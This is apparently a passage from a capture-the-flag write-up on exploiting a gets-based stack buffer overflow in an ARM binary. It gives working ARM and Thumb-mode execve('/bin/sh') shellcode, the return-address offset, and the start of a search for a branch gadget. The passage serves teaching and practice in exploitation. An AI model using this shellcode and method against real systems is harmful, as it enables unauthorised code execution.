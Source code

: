 As we can see, the `vuln` function uses `gets`, so indeed we're dealing with a stack buffer overflow.

### Exploitation

Since there's a stack buffer overflow and all protections are disabled, there are a bunch of ways to get a shell. Let's go for a shellcode exploit!  

Ultimately, we want to execute `execve(filename="/bin/sh\x00", argv=0, envp=0)`, here is some ARM shellcode to do just that :
```asm
@ BINSH_OFFSET is the offset between &"/bin/sh\x00"
@ placed on the stack and pc (program counter)
sub r0, pc, #BINSH_OFFSET	@ filename: &"/bin/sh\x00"
mov r1, #0			@ argv: 0
mov r2, #0			@ envp: 0
mov r7, #11			@ SYS_execve
svc #0				@ invoke syscall
```
Although `gets` allows null bytes, I think it is good practice to write null byte free shellcode. In the following shellcode, we take advantage of Thumb mode to avoid null bytes :
```asm
.code 32			@ ARM mode (32-bit)
@ switch to thumb mode (unlocks 16-bit instructions)
@ to avoid null bytes
add r3, pc, #1
bx r3

.code 16			@ Thumb mode (16-bit)
sub r0, pc, #BINSH_OFFSET	@ filename: &"/bin/sh\x00"
@ eors is used for 16-bit xor
eors r1, r1			@ argv: 0
eors r2, r2			@ envp: 0
movs r7, #11			@ SYS_execve
svc #1				@ invoke syscall
mov r5, r5			@ NOP (shellcode must be 4 bytes aligned)
```
Thumb mode is activated when using a BX/BLX branch instruction after setting the destination register's least significant bit to 1.  
I will not go into much detail about ARM assembly, but here's a great introduction : [Writing ARM Assembly (Part 1) | Azeria Labs](https://azeria-labs.com/writing-arm-assembly-part-1/).  
Here's also a great tutorial for ARM shellcoding : [Writing ARM Shellcode | Azeria Labs](https://azeria-labs.com/writing-arm-shellcode/).  

The offset between the vulnerable buffer's address and the return address is 0x24 = 0x20 (buffer size) + 4 (frame pointer).  

Now, to reliably jump back to the shellcode, we need to look for an instruction similar to `jmp esp` (x86). The corresponding family of instructions in ARM would be the branch instructions :
- Branch `B` :
    * simple jump to a function
- Branch link `BL` :
    * saves (PC+4) in LR (link register) and jumps to function
- Branch exchange `BX` and Branch link exchange `BLX` :
    * same as B/BL + exchange instruction set (ARM <-> Thumb)
    * needs a register as first operand: BX/BLX reg  
